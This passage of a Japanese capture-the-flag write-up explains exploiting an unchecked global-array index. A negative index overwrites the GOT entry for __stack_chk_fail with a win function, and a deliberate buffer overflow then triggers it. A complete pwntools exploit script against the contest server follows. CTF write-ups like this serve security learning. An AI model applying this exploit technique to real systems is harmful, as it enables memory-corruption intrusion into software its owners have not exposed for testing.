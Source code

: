 checksecの結果は次の通り

```txt
[*] '/home/xornet/CTF/rta2023/write/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

前問同様に脆弱そうな`getval`が用意されていますが、今度は関数ではなくマクロです。またバッファがグローバル変数として確保されています。`index`も特にチェックが無いので`array`からのオフセットがわかるアドレスに対して書き込みが出来ます。

何を血迷ったのか最初`array`が「スタック上」に確保されていると錯覚していました(再走ポイント2)が、こいつは`.bss`セクションにあります。そしてメモリ配置においてこの上の方にはGOTがあるので`index`に負数をぶち込めばGOT Overwriteが出来そうです。

`main`で`array[index] = value;`をした後には特に目立った関数は呼ばれていませんが、このバイナリはStack Canaryが有効です。また、`getval`において前問同様自明なBOFが出来ます。ということは`__stack_chk_fail()`を呼ぶことが出来そうなのでこのGOTを`win`に書き換えます。

最後に、`getval`は`atoll(buf)`なので`win`のアドレスは`p64`等でバイトにパックして送る必要が「無い」ことに注意します(再走ポイント3)。ついでにBOFも引き起こしたいので`<winのアドレスの文字列> \x00 <BOF用のパディング>`みたいなペイロードを送りました。

```python
from pwn import remote, process, p64, ELF
import sys


args = sys.argv
DEBUG = True if "-d" in args else False

port = 13337 if DEBUG else 9002
host = "35.194.118.87" if not DEBUG else "localhost"

sc = remote(host, port)

input("attach")


elf  = ELF("./chall")
win_addr = elf.symbols["win"]
array_addr = 0x00404080
stack_chk_addr = 0x00404020
diff = stack_chk_addr - array_addr
diff //= 0x8
sc.recvuntil(b"index: ")
print(str(diff))

sc.sendline(str(diff).encode())
sc.recvuntil(b"value: ")
payload = win_addr

sc.sendline(str(payload).encode() + b"\x00" * 0x10 + b"a"*0x100)


sc.interactive()

# RTACTF{__stack_chk_fail-is-s0m3t1m3s-useful}
# 敗因: glibc 2.34以上, マクロに困惑, arrayはBSSに存在
```


[^1]: 特にこの影響を受けているのがRevで最近のバイナリはどいつもこいつも2.34以上を要求してくる
[^2]: 後で放送を見返したらlibc中のGOT(Partial-RELRO)といった何らかの関数ポインタを書き換えるといったことが検討されていたが、思いつきもしなかったしこれもそもそも難しいらしい
[^3]: 実際は負数なので引いている
[^4]: これは半分嘘で、Cryptoの3問目ぐらいまで(走者の皆様が沼っているのを)観戦しそこから酒を飲みに行った